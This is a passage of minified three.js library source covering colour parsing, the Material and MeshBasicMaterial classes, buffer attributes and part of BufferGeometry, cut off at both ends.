ite:16316671,gold:16766720,goldenrod:14329120,gray:8421504,green:32768,greenyellow:11403055,grey:8421504,honeydew:15794160,hotpink:16738740,indianred:13458524,indigo:4915330,ivory:16777200,khaki:15787660,lavender:15132410,lavenderblush:16773365,lawngreen:8190976,lemonchiffon:16775885,lightblue:11393254,lightcoral:15761536,lightcyan:14745599,lightgoldenrodyellow:16448210,lightgray:13882323,lightgreen:9498256,lightgrey:13882323,lightpink:16758465,lightsalmon:16752762,lightseagreen:2142890,lightskyblue:8900346,lightslategray:7833753,lightslategrey:7833753,lightsteelblue:11584734,lightyellow:16777184,lime:65280,limegreen:3329330,linen:16445670,magenta:16711935,maroon:8388608,mediumaquamarine:6737322,mediumblue:205,mediumorchid:12211667,mediumpurple:9662683,mediumseagreen:3978097,mediumslateblue:8087790,mediumspringgreen:64154,mediumturquoise:4772300,mediumvioletred:13047173,midnightblue:1644912,mintcream:16121850,mistyrose:16770273,moccasin:16770229,navajowhite:16768685,navy:128,oldlace:16643558,olive:8421376,olivedrab:7048739,orange:16753920,orangered:16729344,orchid:14315734,palegoldenrod:15657130,palegreen:10025880,paleturquoise:11529966,palevioletred:14381203,papayawhip:16773077,peachpuff:16767673,peru:13468991,pink:16761035,plum:14524637,powderblue:11591910,purple:8388736,rebeccapurple:6697881,red:16711680,rosybrown:12357519,royalblue:4286945,saddlebrown:9127187,salmon:16416882,sandybrown:16032864,seagreen:3050327,seashell:16774638,sienna:10506797,silver:12632256,skyblue:8900331,slateblue:6970061,slategray:7372944,slategrey:7372944,snow:16775930,springgreen:65407,steelblue:4620980,tan:13808780,teal:32896,thistle:14204888,tomato:16737095,turquoise:4251856,violet:15631086,wheat:16113331,white:16777215,whitesmoke:16119285,yellow:16776960,yellowgreen:10145074},ci={h:0,s:0,l:0},hi={h:0,s:0,l:0};function ui(t,e,n){return n<0&&(n+=1),n>1&&(n-=1),n<1/6?t+6*(e-t)*n:n<.5?e:n<2/3?t+6*(e-t)*(2/3-n):t}class di{constructor(t,e,n){return this.isColor=!0,this.r=1,this.g=1,this.b=1,this.set(t,e,n)}set(t,e,n){if(void 0===e&&void 0===n){const e=t;e&&e.isColor?this.copy(e):\"number\"==typeof e?this.setHex(e):\"string\"==typeof e&&this.setStyle(e)}else this.setRGB(t,e,n);return this}setScalar(t){return this.r=t,this.g=t,this.b=t,this}setHex(t,e=Bt){return t=Math.floor(t),this.r=(t>>16&255)/255,this.g=(t>>8&255)/255,this.b=(255&t)/255,Pe.toWorkingColorSpace(this,e),this}setRGB(t,e,n,i=Pe.workingColorSpace){return this.r=t,this.g=e,this.b=n,Pe.toWorkingColorSpace(this,i),this}setHSL(t,e,n,i=Pe.workingColorSpace){if(t=pe(t,1),e=de(e,0,1),n=de(n,0,1),0===e)this.r=this.g=this.b=n;else{const i=n<=.5?n*(1+e):n+e-n*e,r=2*n-i;this.r=ui(r,i,t+1/3),this.g=ui(r,i,t),this.b=ui(r,i,t-1/3)}return Pe.toWorkingColorSpace(this,i),this}setStyle(t,e=Bt){function n(e){void 0!==e&&parseFloat(e)<1&&console.warn(\"THREE.Color: Alpha component of \"+t+\" will be ignored.\")}let i;if(i=/^(\\w+)\\(([^\\)]*)\\)/.exec(t)){let r;const a=i[1],o=i[2];switch(a){case\"rgb\":case\"rgba\":if(r=/^\\s*(\\d+)\\s*,\\s*(\\d+)\\s*,\\s*(\\d+)\\s*(?:,\\s*(\\d*\\.?\\d+)\\s*)?$/.exec(o))return n(r[4]),this.setRGB(Math.min(255,parseInt(r[1],10))/255,Math.min(255,parseInt(r[2],10))/255,Math.min(255,parseInt(r[3],10))/255,e);if(r=/^\\s*(\\d+)\\%\\s*,\\s*(\\d+)\\%\\s*,\\s*(\\d+)\\%\\s*(?:,\\s*(\\d*\\.?\\d+)\\s*)?$/.exec(o))return n(r[4]),this.setRGB(Math.min(100,parseInt(r[1],10))/100,Math.min(100,parseInt(r[2],10))/100,Math.min(100,parseInt(r[3],10))/100,e);break;case\"hsl\":case\"hsla\":if(r=/^\\s*(\\d*\\.?\\d+)\\s*,\\s*(\\d*\\.?\\d+)\\%\\s*,\\s*(\\d*\\.?\\d+)\\%\\s*(?:,\\s*(\\d*\\.?\\d+)\\s*)?$/.exec(o))return n(r[4]),this.setHSL(parseFloat(r[1])/360,parseFloat(r[2])/100,parseFloat(r[3])/100,e);break;default:console.warn(\"THREE.Color: Unknown color model \"+t)}}else if(i=/^\\#([A-Fa-f\\d]+)$/.exec(t)){const n=i[1],r=n.length;if(3===r)return this.setRGB(parseInt(n.charAt(0),16)/15,parseInt(n.charAt(1),16)/15,parseInt(n.charAt(2),16)/15,e);if(6===r)return this.setHex(parseInt(n,16),e);console.warn(\"THREE.Color: Invalid hex color \"+t)}else if(t&&t.length>0)return this.setColorName(t,e);return this}setColorName(t,e=Bt){const n=li[t.toLowerCase()];return void 0!==n?this.setHex(n,e):console.warn(\"THREE.Color: Unknown color \"+t),this}clone(){return new this.constructor(this.r,this.g,this.b)}copy(t){return this.r=t.r,this.g=t.g,this.b=t.b,this}copySRGBToLinear(t){return this.r=Le(t.r),this.g=Le(t.g),this.b=Le(t.b),this}copyLinearToSRGB(t){return this.r=De(t.r),this.g=De(t.g),this.b=De(t.b),this}convertSRGBToLinear(){return this.copySRGBToLinear(this),this}convertLinearToSRGB(){return this.copyLinearToSRGB(this),this}getHex(t=Bt){return Pe.fromWorkingColorSpace(pi.copy(this),t),65536*Math.round(de(255*pi.r,0,255))+256*Math.round(de(255*pi.g,0,255))+Math.round(de(255*pi.b,0,255))}getHexString(t=Bt){return(\"000000\"+this.getHex(t).toString(16)).slice(-6)}getHSL(t,e=Pe.workingColorSpace){Pe.fromWorkingColorSpace(pi.copy(this),e);const n=pi.r,i=pi.g,r=pi.b,a=Math.max(n,i,r),o=Math.min(n,i,r);let s,l;const c=(o+a)/2;if(o===a)s=0,l=0;else{const t=a-o;switch(l=c<=.5?t/(a+o):t/(2-a-o),a){case n:s=(i-r)/t+(i<r?6:0);break;case i:s=(r-n)/t+2;break;case r:s=(n-i)/t+4}s/=6}return t.h=s,t.s=l,t.l=c,t}getRGB(t,e=Pe.workingColorSpace){return Pe.fromWorkingColorSpace(pi.copy(this),e),t.r=pi.r,t.g=pi.g,t.b=pi.b,t}getStyle(t=Bt){Pe.fromWorkingColorSpace(pi.copy(this),t);const e=pi.r,n=pi.g,i=pi.b;return t!==Bt?`color(${t} ${e.toFixed(3)} ${n.toFixed(3)} ${i.toFixed(3)})`:`rgb(${Math.round(255*e)},${Math.round(255*n)},${Math.round(255*i)})`}offsetHSL(t,e,n){return this.getHSL(ci),this.setHSL(ci.h+t,ci.s+e,ci.l+n)}add(t){return this.r+=t.r,this.g+=t.g,this.b+=t.b,this}addColors(t,e){return this.r=t.r+e.r,this.g=t.g+e.g,this.b=t.b+e.b,this}addScalar(t){return this.r+=t,this.g+=t,this.b+=t,this}sub(t){return this.r=Math.max(0,this.r-t.r),this.g=Math.max(0,this.g-t.g),this.b=Math.max(0,this.b-t.b),this}multiply(t){return this.r*=t.r,this.g*=t.g,this.b*=t.b,this}multiplyScalar(t){return this.r*=t,this.g*=t,this.b*=t,this}lerp(t,e){return this.r+=(t.r-this.r)*e,this.g+=(t.g-this.g)*e,this.b+=(t.b-this.b)*e,this}lerpColors(t,e,n){return this.r=t.r+(e.r-t.r)*n,this.g=t.g+(e.g-t.g)*n,this.b=t.b+(e.b-t.b)*n,this}lerpHSL(t,e){this.getHSL(ci),t.getHSL(hi);const n=fe(ci.h,hi.h,e),i=fe(ci.s,hi.s,e),r=fe(ci.l,hi.l,e);return this.setHSL(n,i,r),this}setFromVector3(t){return this.r=t.x,this.g=t.y,this.b=t.z,this}applyMatrix3(t){const e=this.r,n=this.g,i=this.b,r=t.elements;return this.r=r[0]*e+r[3]*n+r[6]*i,this.g=r[1]*e+r[4]*n+r[7]*i,this.b=r[2]*e+r[5]*n+r[8]*i,this}equals(t){return t.r===this.r&&t.g===this.g&&t.b===this.b}fromArray(t,e=0){return this.r=t[e],this.g=t[e+1],this.b=t[e+2],this}toArray(t=[],e=0){return t[e]=this.r,t[e+1]=this.g,t[e+2]=this.b,t}fromBufferAttribute(t,e){return this.r=t.getX(e),this.g=t.getY(e),this.b=t.getZ(e),this}toJSON(){return this.getHex()}*[Symbol.iterator](){yield this.r,yield this.g,yield this.b}}const pi=new di;di.NAMES=li;let fi=0;class mi extends oe{constructor(){super(),this.isMaterial=!0,Object.defineProperty(this,\"id\",{value:fi++}),this.uuid=ue(),this.name=\"\",this.type=\"Material\",this.blending=1,this.side=0,this.vertexColors=!1,this.opacity=1,this.transparent=!1,this.alphaHash=!1,this.blendSrc=204,this.blendDst=205,this.blendEquation=f,this.blendSrcAlpha=null,this.blendDstAlpha=null,this.blendEquationAlpha=null,this.blendColor=new di(0,0,0),this.blendAlpha=0,this.depthFunc=3,this.depthTest=!0,this.depthWrite=!0,this.stencilWriteMask=255,this.stencilFunc=519,this.stencilRef=0,this.stencilFuncMask=255,this.stencilFail=Yt,this.stencilZFail=Yt,this.stencilZPass=Yt,this.stencilWrite=!1,this.clippingPlanes=null,this.clipIntersection=!1,this.clipShadows=!1,this.shadowSide=null,this.colorWrite=!0,this.precision=null,this.polygonOffset=!1,this.polygonOffsetFactor=0,this.polygonOffsetUnits=0,this.dithering=!1,this.alphaToCoverage=!1,this.premultipliedAlpha=!1,this.forceSinglePass=!1,this.visible=!0,this.toneMapped=!0,this.userData={},this.version=0,this._alphaTest=0}get alphaTest(){return this._alphaTest}set alphaTest(t){this._alphaTest>0!=t>0&&this.version++,this._alphaTest=t}onBeforeRender(){}onBeforeCompile(){}customProgramCacheKey(){return this.onBeforeCompile.toString()}setValues(t){if(void 0!==t)for(const e in t){const n=t[e];if(void 0===n){console.warn(`THREE.Material: parameter '${e}' has value of undefined.`);continue}const i=this[e];void 0!==i?i&&i.isColor?i.set(n):i&&i.isVector3&&n&&n.isVector3?i.copy(n):this[e]=n:console.warn(`THREE.Material: '${e}' is not a property of THREE.${this.type}.`)}}toJSON(t){const e=void 0===t||\"string\"==typeof t;e&&(t={textures:{},images:{}});const n={metadata:{version:4.6,type:\"Material\",generator:\"Material.toJSON\"}};function i(t){const e=[];for(const n in t){const i=t[n];delete i.metadata,e.push(i)}return e}if(n.uuid=this.uuid,n.type=this.type,\"\"!==this.name&&(n.name=this.name),this.color&&this.color.isColor&&(n.color=this.color.getHex()),void 0!==this.roughness&&(n.roughness=this.roughness),void 0!==this.metalness&&(n.metalness=this.metalness),void 0!==this.sheen&&(n.sheen=this.sheen),this.sheenColor&&this.sheenColor.isColor&&(n.sheenColor=this.sheenColor.getHex()),void 0!==this.sheenRoughness&&(n.sheenRoughness=this.sheenRoughness),this.emissive&&this.emissive.isColor&&(n.emissive=this.emissive.getHex()),void 0!==this.emissiveIntensity&&1!==this.emissiveIntensity&&(n.emissiveIntensity=this.emissiveIntensity),this.specular&&this.specular.isColor&&(n.specular=this.specular.getHex()),void 0!==this.specularIntensity&&(n.specularIntensity=this.specularIntensity),this.specularColor&&this.specularColor.isColor&&(n.specularColor=this.specularColor.getHex()),void 0!==this.shininess&&(n.shininess=this.shininess),void 0!==this.clearcoat&&(n.clearcoat=this.clearcoat),void 0!==this.clearcoatRoughness&&(n.clearcoatRoughness=this.clearcoatRoughness),this.clearcoatMap&&this.clearcoatMap.isTexture&&(n.clearcoatMap=this.clearcoatMap.toJSON(t).uuid),this.clearcoatRoughnessMap&&this.clearcoatRoughnessMap.isTexture&&(n.clearcoatRoughnessMap=this.clearcoatRoughnessMap.toJSON(t).uuid),this.clearcoatNormalMap&&this.clearcoatNormalMap.isTexture&&(n.clearcoatNormalMap=this.clearcoatNormalMap.toJSON(t).uuid,n.clearcoatNormalScale=this.clearcoatNormalScale.toArray()),void 0!==this.dispersion&&(n.dispersion=this.dispersion),void 0!==this.iridescence&&(n.iridescence=this.iridescence),void 0!==this.iridescenceIOR&&(n.iridescenceIOR=this.iridescenceIOR),void 0!==this.iridescenceThicknessRange&&(n.iridescenceThicknessRange=this.iridescenceThicknessRange),this.iridescenceMap&&this.iridescenceMap.isTexture&&(n.iridescenceMap=this.iridescenceMap.toJSON(t).uuid),this.iridescenceThicknessMap&&this.iridescenceThicknessMap.isTexture&&(n.iridescenceThicknessMap=this.iridescenceThicknessMap.toJSON(t).uuid),void 0!==this.anisotropy&&(n.anisotropy=this.anisotropy),void 0!==this.anisotropyRotation&&(n.anisotropyRotation=this.anisotropyRotation),this.anisotropyMap&&this.anisotropyMap.isTexture&&(n.anisotropyMap=this.anisotropyMap.toJSON(t).uuid),this.map&&this.map.isTexture&&(n.map=this.map.toJSON(t).uuid),this.matcap&&this.matcap.isTexture&&(n.matcap=this.matcap.toJSON(t).uuid),this.alphaMap&&this.alphaMap.isTexture&&(n.alphaMap=this.alphaMap.toJSON(t).uuid),this.lightMap&&this.lightMap.isTexture&&(n.lightMap=this.lightMap.toJSON(t).uuid,n.lightMapIntensity=this.lightMapIntensity),this.aoMap&&this.aoMap.isTexture&&(n.aoMap=this.aoMap.toJSON(t).uuid,n.aoMapIntensity=this.aoMapIntensity),this.bumpMap&&this.bumpMap.isTexture&&(n.bumpMap=this.bumpMap.toJSON(t).uuid,n.bumpScale=this.bumpScale),this.normalMap&&this.normalMap.isTexture&&(n.normalMap=this.normalMap.toJSON(t).uuid,n.normalMapType=this.normalMapType,n.normalScale=this.normalScale.toArray()),this.displacementMap&&this.displacementMap.isTexture&&(n.displacementMap=this.displacementMap.toJSON(t).uuid,n.displacementScale=this.displacementScale,n.displacementBias=this.displacementBias),this.roughnessMap&&this.roughnessMap.isTexture&&(n.roughnessMap=this.roughnessMap.toJSON(t).uuid),this.metalnessMap&&this.metalnessMap.isTexture&&(n.metalnessMap=this.metalnessMap.toJSON(t).uuid),this.emissiveMap&&this.emissiveMap.isTexture&&(n.emissiveMap=this.emissiveMap.toJSON(t).uuid),this.specularMap&&this.specularMap.isTexture&&(n.specularMap=this.specularMap.toJSON(t).uuid),this.specularIntensityMap&&this.specularIntensityMap.isTexture&&(n.specularIntensityMap=this.specularIntensityMap.toJSON(t).uuid),this.specularColorMap&&this.specularColorMap.isTexture&&(n.specularColorMap=this.specularColorMap.toJSON(t).uuid),this.envMap&&this.envMap.isTexture&&(n.envMap=this.envMap.toJSON(t).uuid,void 0!==this.combine&&(n.combine=this.combine)),void 0!==this.envMapRotation&&(n.envMapRotation=this.envMapRotation.toArray()),void 0!==this.envMapIntensity&&(n.envMapIntensity=this.envMapIntensity),void 0!==this.reflectivity&&(n.reflectivity=this.reflectivity),void 0!==this.refractionRatio&&(n.refractionRatio=this.refractionRatio),this.gradientMap&&this.gradientMap.isTexture&&(n.gradientMap=this.gradientMap.toJSON(t).uuid),void 0!==this.transmission&&(n.transmission=this.transmission),this.transmissionMap&&this.transmissionMap.isTexture&&(n.transmissionMap=this.transmissionMap.toJSON(t).uuid),void 0!==this.thickness&&(n.thickness=this.thickness),this.thicknessMap&&this.thicknessMap.isTexture&&(n.thicknessMap=this.thicknessMap.toJSON(t).uuid),void 0!==this.attenuationDistance&&this.attenuationDistance!==1/0&&(n.attenuationDistance=this.attenuationDistance),void 0!==this.attenuationColor&&(n.attenuationColor=this.attenuationColor.getHex()),void 0!==this.size&&(n.size=this.size),null!==this.shadowSide&&(n.shadowSide=this.shadowSide),void 0!==this.sizeAttenuation&&(n.sizeAttenuation=this.sizeAttenuation),1!==this.blending&&(n.blending=this.blending),0!==this.side&&(n.side=this.side),!0===this.vertexColors&&(n.vertexColors=!0),this.opacity<1&&(n.opacity=this.opacity),!0===this.transparent&&(n.transparent=!0),204!==this.blendSrc&&(n.blendSrc=this.blendSrc),205!==this.blendDst&&(n.blendDst=this.blendDst),this.blendEquation!==f&&(n.blendEquation=this.blendEquation),null!==this.blendSrcAlpha&&(n.blendSrcAlpha=this.blendSrcAlpha),null!==this.blendDstAlpha&&(n.blendDstAlpha=this.blendDstAlpha),null!==this.blendEquationAlpha&&(n.blendEquationAlpha=this.blendEquationAlpha),this.blendColor&&this.blendColor.isColor&&(n.blendColor=this.blendColor.getHex()),0!==this.blendAlpha&&(n.blendAlpha=this.blendAlpha),3!==this.depthFunc&&(n.depthFunc=this.depthFunc),!1===this.depthTest&&(n.depthTest=this.depthTest),!1===this.depthWrite&&(n.depthWrite=this.depthWrite),!1===this.colorWrite&&(n.colorWrite=this.colorWrite),255!==this.stencilWriteMask&&(n.stencilWriteMask=this.stencilWriteMask),519!==this.stencilFunc&&(n.stencilFunc=this.stencilFunc),0!==this.stencilRef&&(n.stencilRef=this.stencilRef),255!==this.stencilFuncMask&&(n.stencilFuncMask=this.stencilFuncMask),this.stencilFail!==Yt&&(n.stencilFail=this.stencilFail),this.stencilZFail!==Yt&&(n.stencilZFail=this.stencilZFail),this.stencilZPass!==Yt&&(n.stencilZPass=this.stencilZPass),!0===this.stencilWrite&&(n.stencilWrite=this.stencilWrite),void 0!==this.rotation&&0!==this.rotation&&(n.rotation=this.rotation),!0===this.polygonOffset&&(n.polygonOffset=!0),0!==this.polygonOffsetFactor&&(n.polygonOffsetFactor=this.polygonOffsetFactor),0!==this.polygonOffsetUnits&&(n.polygonOffsetUnits=this.polygonOffsetUnits),void 0!==this.linewidth&&1!==this.linewidth&&(n.linewidth=this.linewidth),void 0!==this.dashSize&&(n.dashSize=this.dashSize),void 0!==this.gapSize&&(n.gapSize=this.gapSize),void 0!==this.scale&&(n.scale=this.scale),!0===this.dithering&&(n.dithering=!0),this.alphaTest>0&&(n.alphaTest=this.alphaTest),!0===this.alphaHash&&(n.alphaHash=!0),!0===this.alphaToCoverage&&(n.alphaToCoverage=!0),!0===this.premultipliedAlpha&&(n.premultipliedAlpha=!0),!0===this.forceSinglePass&&(n.forceSinglePass=!0),!0===this.wireframe&&(n.wireframe=!0),this.wireframeLinewidth>1&&(n.wireframeLinewidth=this.wireframeLinewidth),\"round\"!==this.wireframeLinecap&&(n.wireframeLinecap=this.wireframeLinecap),\"round\"!==this.wireframeLinejoin&&(n.wireframeLinejoin=this.wireframeLinejoin),!0===this.flatShading&&(n.flatShading=!0),!1===this.visible&&(n.visible=!1),!1===this.toneMapped&&(n.toneMapped=!1),!1===this.fog&&(n.fog=!1),Object.keys(this.userData).length>0&&(n.userData=this.userData),e){const e=i(t.textures),r=i(t.images);e.length>0&&(n.textures=e),r.length>0&&(n.images=r)}return n}clone(){return(new this.constructor).copy(this)}copy(t){this.name=t.name,this.blending=t.blending,this.side=t.side,this.vertexColors=t.vertexColors,this.opacity=t.opacity,this.transparent=t.transparent,this.blendSrc=t.blendSrc,this.blendDst=t.blendDst,this.blendEquation=t.blendEquation,this.blendSrcAlpha=t.blendSrcAlpha,this.blendDstAlpha=t.blendDstAlpha,this.blendEquationAlpha=t.blendEquationAlpha,this.blendColor.copy(t.blendColor),this.blendAlpha=t.blendAlpha,this.depthFunc=t.depthFunc,this.depthTest=t.depthTest,this.depthWrite=t.depthWrite,this.stencilWriteMask=t.stencilWriteMask,this.stencilFunc=t.stencilFunc,this.stencilRef=t.stencilRef,this.stencilFuncMask=t.stencilFuncMask,this.stencilFail=t.stencilFail,this.stencilZFail=t.stencilZFail,this.stencilZPass=t.stencilZPass,this.stencilWrite=t.stencilWrite;const e=t.clippingPlanes;let n=null;if(null!==e){const t=e.length;n=new Array(t);for(let i=0;i!==t;++i)n[i]=e[i].clone()}return this.clippingPlanes=n,this.clipIntersection=t.clipIntersection,this.clipShadows=t.clipShadows,this.shadowSide=t.shadowSide,this.colorWrite=t.colorWrite,this.precision=t.precision,this.polygonOffset=t.polygonOffset,this.polygonOffsetFactor=t.polygonOffsetFactor,this.polygonOffsetUnits=t.polygonOffsetUnits,this.dithering=t.dithering,this.alphaTest=t.alphaTest,this.alphaHash=t.alphaHash,this.alphaToCoverage=t.alphaToCoverage,this.premultipliedAlpha=t.premultipliedAlpha,this.forceSinglePass=t.forceSinglePass,this.visible=t.visible,this.toneMapped=t.toneMapped,this.userData=JSON.parse(JSON.stringify(t.userData)),this}dispose(){this.dispatchEvent({type:\"dispose\"})}set needsUpdate(t){!0===t&&this.version++}onBuild(){console.warn(\"Material: onBuild() has been removed.\")}}class gi extends mi{constructor(t){super(),this.isMeshBasicMaterial=!0,this.type=\"MeshBasicMaterial\",this.color=new di(16777215),this.map=null,this.lightMap=null,this.lightMapIntensity=1,this.aoMap=null,this.aoMapIntensity=1,this.specularMap=null,this.alphaMap=null,this.envMap=null,this.envMapRotation=new In,this.combine=0,this.reflectivity=1,this.refractionRatio=.98,this.wireframe=!1,this.wireframeLinewidth=1,this.wireframeLinecap=\"round\",this.wireframeLinejoin=\"round\",this.fog=!0,this.setValues(t)}copy(t){return super.copy(t),this.color.copy(t.color),this.map=t.map,this.lightMap=t.lightMap,this.lightMapIntensity=t.lightMapIntensity,this.aoMap=t.aoMap,this.aoMapIntensity=t.aoMapIntensity,this.specularMap=t.specularMap,this.alphaMap=t.alphaMap,this.envMap=t.envMap,this.envMapRotation.copy(t.envMapRotation),this.combine=t.combine,this.reflectivity=t.reflectivity,this.refractionRatio=t.refractionRatio,this.wireframe=t.wireframe,this.wireframeLinewidth=t.wireframeLinewidth,this.wireframeLinecap=t.wireframeLinecap,this.wireframeLinejoin=t.wireframeLinejoin,this.fog=t.fog,this}}const _i=new Xe,vi=new ve;class yi{constructor(t,e,n=!1){if(Array.isArray(t))throw new TypeError(\"THREE.BufferAttribute: array should be a Typed Array.\");this.isBufferAttribute=!0,this.name=\"\",this.array=t,this.itemSize=e,this.count=void 0!==t?t.length/e:0,this.normalized=n,this.usage=35044,this._updateRange={offset:0,count:-1},this.updateRanges=[],this.gpuType=Z,this.version=0}onUploadCallback(){}set needsUpdate(t){!0===t&&this.version++}get updateRange(){return we(\"THREE.BufferAttribute: updateRange() is deprecated and will be removed in r169. Use addUpdateRange() instead.\"),this._updateRange}setUsage(t){return this.usage=t,this}addUpdateRange(t,e){this.updateRanges.push({start:t,count:e})}clearUpdateRanges(){this.updateRanges.length=0}copy(t){return this.name=t.name,this.array=new t.array.constructor(t.array),this.itemSize=t.itemSize,this.count=t.count,this.normalized=t.normalized,this.usage=t.usage,this.gpuType=t.gpuType,this}copyAt(t,e,n){t*=this.itemSize,n*=e.itemSize;for(let i=0,r=this.itemSize;i<r;i++)this.array[t+i]=e.array[n+i];return this}copyArray(t){return this.array.set(t),this}applyMatrix3(t){if(2===this.itemSize)for(let e=0,n=this.count;e<n;e++)vi.fromBufferAttribute(this,e),vi.applyMatrix3(t),this.setXY(e,vi.x,vi.y);else if(3===this.itemSize)for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.applyMatrix3(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}applyMatrix4(t){for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.applyMatrix4(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}applyNormalMatrix(t){for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.applyNormalMatrix(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}transformDirection(t){for(let e=0,n=this.count;e<n;e++)_i.fromBufferAttribute(this,e),_i.transformDirection(t),this.setXYZ(e,_i.x,_i.y,_i.z);return this}set(t,e=0){return this.array.set(t,e),this}getComponent(t,e){let n=this.array[t*this.itemSize+e];return this.normalized&&(n=me(n,this.array)),n}setComponent(t,e,n){return this.normalized&&(n=ge(n,this.array)),this.array[t*this.itemSize+e]=n,this}getX(t){let e=this.array[t*this.itemSize];return this.normalized&&(e=me(e,this.array)),e}setX(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize]=e,this}getY(t){let e=this.array[t*this.itemSize+1];return this.normalized&&(e=me(e,this.array)),e}setY(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize+1]=e,this}getZ(t){let e=this.array[t*this.itemSize+2];return this.normalized&&(e=me(e,this.array)),e}setZ(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize+2]=e,this}getW(t){let e=this.array[t*this.itemSize+3];return this.normalized&&(e=me(e,this.array)),e}setW(t,e){return this.normalized&&(e=ge(e,this.array)),this.array[t*this.itemSize+3]=e,this}setXY(t,e,n){return t*=this.itemSize,this.normalized&&(e=ge(e,this.array),n=ge(n,this.array)),this.array[t+0]=e,this.array[t+1]=n,this}setXYZ(t,e,n,i){return t*=this.itemSize,this.normalized&&(e=ge(e,this.array),n=ge(n,this.array),i=ge(i,this.array)),this.array[t+0]=e,this.array[t+1]=n,this.array[t+2]=i,this}setXYZW(t,e,n,i,r){return t*=this.itemSize,this.normalized&&(e=ge(e,this.array),n=ge(n,this.array),i=ge(i,this.array),r=ge(r,this.array)),this.array[t+0]=e,this.array[t+1]=n,this.array[t+2]=i,this.array[t+3]=r,this}onUpload(t){return this.onUploadCallback=t,this}clone(){return new this.constructor(this.array,this.itemSize).copy(this)}toJSON(){const t={itemSize:this.itemSize,type:this.array.constructor.name,array:Array.from(this.array),normalized:this.normalized};return\"\"!==this.name&&(t.name=this.name),35044!==this.usage&&(t.usage=this.usage),t}}class xi extends yi{constructor(t,e,n){super(new Uint16Array(t),e,n)}}class bi extends yi{constructor(t,e,n){super(new Uint32Array(t),e,n)}}class Mi extends yi{constructor(t,e,n){super(new Float32Array(t),e,n)}}let Si=0;const Ei=new Sn,wi=new Zn,Ti=new Xe,Ai=new Ke,Ci=new Ke,Ri=new Xe;class Pi extends oe{constructor(){super(),this.isBufferGeometry=!0,Object.defineProperty(this,\"id\",{value:Si++}),this.uuid=ue(),this.name=\"\",this.type=\"BufferGeometry\",this.index=null,this.attributes={},this.morphAttributes={},this.morphTargetsRelative=!1,this.groups=[],this.boundingBox=null,this.boundingSphere=null,this.drawRange={start:0,count:1/0},this.userData={}}getIndex(){return this.index}setIndex(t){return Array.isArray(t)?this.index=new(be(t)?bi:xi)(t,1):this.index=t,this}getAttribute(t){return this.attributes[t]}setAttribute(t,e){return this.attributes[t]=e,this}deleteAttribute(t){return delete this.attributes[t],this}hasAttribute(t){return void 0!==this.attributes[t]}addGroup(t,e,n=0){this.groups.push({start:t,count:e,materialIndex:n})}clearGroups(){this.groups=[]}setDrawRange(t,e){this.drawRange.start=t,this.drawRange.count=e}applyMatrix4(t){const e=this.attributes.position;void 0!==e&&(e.applyMatrix4(t),e.needsUpdate=!0);const n=this.attributes.normal;if(void 0!==n){const e=(new ye).getNormalMatrix(t);n.applyNormalMatrix(e),n.needsUpdate=!0}const i=this.attributes.tangent;return void 0!==i&&(i.transformDirection(t),i.needsUpdate=!0),null!==this.boundingBox&&this.computeBoundingBox(),null!==this.boundingSphere&&this.computeBoundingSphere(),this}applyQuaternion(t){return Ei.makeRotationFromQuaternion(t),this.applyMatrix4(Ei),this}rotateX(t){return Ei.makeRotationX(t),this.applyMatrix4(Ei),this}rotateY(t){return Ei.makeRotationY(t),this.applyMatrix4(Ei),this}rotateZ(t){return Ei.makeRotationZ(t),this.applyMatrix4(Ei),this}translate(t,e,n){return Ei.makeTranslation(t,e,n),this.applyMatrix4(Ei),this}scale(t,e,n){return Ei.makeScale(t,e,n),this.applyMatrix4(Ei),this}lookAt(t){return wi.lookAt(t),wi.updateMatrix(),this.applyMatrix4(wi.matrix),this}center(){return this.computeBoundingBox(),this.boundingBox.getCenter(Ti).negate(),this.translate(Ti.x,Ti.y,Ti.z),this}setFromPoints(t){const e=[];for(let n=0,i=t.length;n<i;n++){const i=t[n];e.push(i.x,i.y,i.z||0)}return this.setAttribute(\"position\",new Mi(e,3)),this}computeBoundingBox(){null===this.boundingBox&&(this.boundingBox=new Ke);const t=this.attributes.position,e=this.morphAttributes.position;if(t&&t.isGLBufferAttribute)return console.error(\"THREE.BufferGeometry.computeBoundingBox(): GLBufferAttribute requires a manual bounding box.\",this),void this.boundingBox.set(new Xe(-1/0,-1/0,-1/0),new Xe(1/0,1/0,1/0));if(void 0!==t){if(this.boundingBox.setFromBufferAttribute(t),e)for(let t=0,n=e.length;t<n;t++){const n=e[t];Ai.setFromBufferAttribute(n),this.morphTargetsRelative?(Ri.addVectors(this.boundingBox.min,Ai.min),this.boundingBox.expandByPoint(Ri),Ri.addVectors(this.boundingBox.max,Ai.max),this.boundingBox.expandByPoint(Ri)):(this.boundingBox.expandByPoint(Ai.min),this.boundingBox.expandByPoint(Ai.max))}}else this.boundingBox.makeEmpty();(isNaN(this.boundingBox.min.x)||isNaN(this.boundingBox.min.y)||isNaN(this.boundingBox.min.z))&&console.error('THREE.BufferGeometry.computeBoundingBox(): Computed min/max have NaN values. The \"position\" attribute is likely to have NaN values.',this)}computeBoundingSphere(){null===this.boundingSphere&&(this.boundingSphere=new fn);const t=this.attributes.position,e=this.morphAttributes.position;if(t&&t.isGLBufferAttribute)return console.error(\"THREE.BufferGeometry.computeBoundingSphere(): GLBufferAttribute requires a manual bounding sphere.\",this),void this.boundingSphere.set(new Xe,1/0);if(t){const n=this.boundingSphere.center;if(Ai.setFromBufferAttribute(t),e)for(let t=0,n=e.length;t<n;t++){const n=e[t];Ci.setFromBufferAttribute(n),this.morphTargetsRelative?(Ri.addVectors(Ai.min,Ci.min),Ai.expandByPoint(Ri),Ri.addVectors(Ai.max,Ci.max),Ai.expandByPoint(Ri)):(Ai.expandByPoint(Ci.min),Ai.expandByPoint(Ci.max))}Ai.getCenter(n);let i=0;for(let e=0,r=t.count;e<r;e++)Ri.fromBufferAttribute(t,e),i=Math.max(i,n.distanceToSquared(Ri));if(e)for(let r=0,a=e.length;r<a;r++){const a=e[r],o=this.morphTargetsRelative;for(let 